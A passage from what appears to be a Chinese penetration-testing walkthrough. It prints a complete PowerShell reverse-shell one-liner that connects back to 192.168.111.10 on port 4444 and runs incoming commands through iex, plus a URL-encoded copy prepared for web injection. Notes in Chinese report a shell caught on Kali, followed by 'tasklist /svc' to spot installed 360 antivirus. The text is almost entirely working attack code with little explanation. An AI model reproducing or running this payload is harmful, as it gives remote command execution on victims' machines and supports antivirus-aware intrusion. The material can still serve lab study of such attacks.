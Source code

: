 
```


|  | powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.111.10', 4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" |
| --- | --- |


```

url 编码



```


|  | powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient('192.168.111.10'%2C%204444)%3B%24stream%20%3D%20%24client.GetStream()%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile((%24i%20%3D%20%24stream.Read(%24bytes%2C%200%2C%20%24bytes.Length))%20-ne%200)%7B%3B%24data%20%3D%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString(%24bytes%2C0%2C%20%24i)%3B%24sendback%20%3D%20(iex%20%24data%202%3E%261%20%7C%20Out-String%20)%3B%24sendback2%20%20%3D%20%24sendback%20%2B%20'PS%20'%20%2B%20(pwd).Path%20%2B%20'%3E%20'%3B%24sendbyte%20%3D%20(%5Btext.encoding%5D%3A%3AASCII).GetBytes(%24sendback2)%3B%24stream.Write(%24sendbyte%2C0%2C%24sendbyte.Length)%3B%24stream.Flush()%7D%3B%24client.Close()%22 |
| --- | --- |


```

![image-20240924220605716](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039513-983159096.png)


成功反弹到 kali


执行



```


|  | tasklist /svc |
| --- | --- |


```

![image-20240926104658244](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039188-1149995854.png)


看到 360 的进程，应该是装了 360 杀毒软件的
